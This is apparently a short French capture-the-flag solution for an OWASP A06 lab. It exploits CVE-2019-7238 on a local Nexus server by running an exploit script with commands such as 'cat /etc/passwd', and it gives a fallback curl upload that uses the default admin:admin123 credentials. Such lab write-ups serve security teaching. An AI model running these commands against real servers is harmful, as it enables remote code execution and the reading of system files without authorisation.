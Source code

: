 # Solution
## A06 - Composants vulnérables et obsolètes

Le serveur Nexus utilisé est vulnérable à la CVE 2019-7238. Nous pouvons donc l'exploiter avec le script suivant :

```bash
python3 CVE-2019-7238.py http://localhost:8081/ whoami
python3 CVE-2019-7238.py http://localhost:8081/ "cat /etc/passwd"
python3 CVE-2019-7238.py http://localhost:8081/ "cat /etc/flag.txt"
```

Nous obtenons le flag.

Si cela ne fonctionne pas il faut lancer cette commande :
```bash
curl -v -u admin:admin123 --upload-file /tmp/pom.xml http://localhost:8081/repository/maven-releases/org/foo/1.0/foo-1.0.po > /dev/null 2>&1
```